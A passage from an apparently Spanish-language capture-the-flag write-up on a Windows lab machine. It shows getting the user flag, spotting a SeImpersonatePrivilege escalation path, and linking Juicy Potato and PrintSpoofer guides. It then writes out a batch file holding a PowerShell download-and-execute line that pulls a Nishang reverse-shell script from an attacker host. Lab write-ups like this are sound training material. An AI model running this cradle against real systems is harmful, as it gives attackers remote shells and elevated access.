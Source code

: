 En el escritorio de merlin obtendremos nuestra flag.

![b26a8f9fc45d32966add336b5c3eb1ea.png](b26a8f9fc45d32966add336b5c3eb1ea.png)

Enumeramos el sistema y tenemos una posible via de escalar privilegios

![c67bcf6ea9371388af80ee2fdc568b3f.png](c67bcf6ea9371388af80ee2fdc568b3f.png)

Leyendo el siguiente artículo vemos como explotar esta vulnerabilidad:

- [https://infinitelogins.com/2020/12/09/windows-privilege-escalation-abusing-seimpersonateprivilege-juicy-potato/privesc](https://infinitelogins.com/2020/12/09/windows-privilege-escalation-abusing-seimpersonateprivilege-juicy-potato/privesc)

- Explotar el impersonate privileges en un laboratorio: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) 


Vamos a descargar todo lo que necesitamos:
- juicy patato : ![https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
- .bat :

shell.bat 

```bash
powershell -c "iex(new-object net.webclient).downloadstring('http://10.10.16.2/nishangPStcp.ps1')"
```
- nishang

Ya tenemos todo, ahora vamos a cargar a la maquina victima.
